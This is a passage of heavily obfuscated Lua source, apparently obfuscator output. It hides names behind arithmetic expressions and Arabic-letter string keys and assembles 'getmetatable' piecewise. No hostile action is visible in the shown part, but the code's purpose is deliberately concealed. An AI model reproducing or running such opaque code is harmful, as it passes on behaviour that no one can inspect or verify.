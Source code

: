 ,nil,nil;(function() _msec=(function(e,d,l)local R=d["آټجئئنسكج؃جڝټكټڪ؃"];local W=l[e[(0x6248/40)]][e["حدنئسؠټدنجئ"]];local u=(0x3d8/246)/(176/(((-32+0x2d2)-0x198)-194))local D=(108-(-106+(23108/0x6d)))-(0x6c-107)local y=l[e[(9858/0x3e)]][e["جح؃ټدقآقسقآسڝحټ"]];local j=(((-5535/0x29)+0x14)+116)+(20-0x12)local _=l[e[(0x237+-35)]][e["ټسضڪندضسنجئؠ"]]local o=(-55+0x39)-((-2860/(0xc4a/121))+111)local C=((252-((51+-0x55)+0xde))/0x10)local B=((-100/((0xbf4/45)-64))+0x1d)local S=(49+(64+(-136-(-0x8a6/82))))local s=((((-0xa63c8/193)/168)+265)/0x3d)local v=(252/(0x5a+((-116+0x27)+50)))local P=(0x248/(((0x26034/225)-0x17b)-0xa7))local w=((0x8e+(0x1f+((-0x31d1/109)+9)))-62)local U=(((0x93+(0x5+-124))+-0x72)+89)local O=((((-11550/0x9a)+0x1ef)/20)+-0x12)local f=((314-((612-(798-0x1c5))+-100))/0x31)local k=(((-37369-(-37265+0x48b8))/0xea)+0x53)local i=(-0x5a+(((-0x370b/231)+0x1609)/0x3c))local t=(((0x1eb90/(221+-0x64))-538)/0xfb)local x=(98-(-0x3c+(-0x76+(0x212e/31))))local h=((-0x5b+((0xbc43/135)-0xda))-0x2e)local c=(280/(344-(-0x1d+(48930/0xd2))))local M=(44-(1974/((10828-(10998-0x1598))/0x72)))local b=((((463+-0x31)+-0x68)-0xd9)-91)local G=e[(0xac6-(167796/0x76))];local V=l[e[(3180/0x14)]][e["ؠدنككؠضنس؃كآك"]];local K=l[(function(e)return type(e):sub(1,1)..'\101\116'end)('حقسكحآ؃د')..'\109\101'..('\116\97'or'ڝسضدڝئسك')..e[(1102-0x23a)]];local J=l[e[(10108/0x13)]][e["زڝحټدڪسض"]];local L=(22-0x14)-((0xb1-(357-0xe8))+-0x32)local m=(((113-0x55)-0x46)+0x2c)-(0x34+-50)local Y=l[e[(-0x16+181)]][e["كڪڪؠكنقڪ"]];local a=function(e,l)return e..l end local p=(0x83+-127)*(((144+-0x7b)+-125)+108)local Q=l[e["ضآجسزڝئؠجح"]];local r=(0x1b-25)*(((0xb676/90)-0x120)+-103)local A=((0x4a868-152680)/149)*((-64-(-34+0x32))+82)local H=(0x8b+((-0xc0f7b/79)/115))local g=((0x350c/(9800/0x46))-95)*(0x59-87)local N=l[e["ضضجزټئزحڪؠآدڪ"]]or l[e[(1177-0x285)]][e["ضضجزټئزحڪؠآدڪ"]];local n=(0x700/((0x3782/145)+-91))local e=l[e["ضټسجضجڪؠحئڪڝز"]];local J=(function(a)local r,d=2,0x10 local l={j={},v={}}local n=-o local e=d+D while true do l[a:sub(e,(function()e=r+e return e-D end)())]=(function()n=n+o return n end)()if n==(p-o)then n=""d=L break end end local n=#a while
e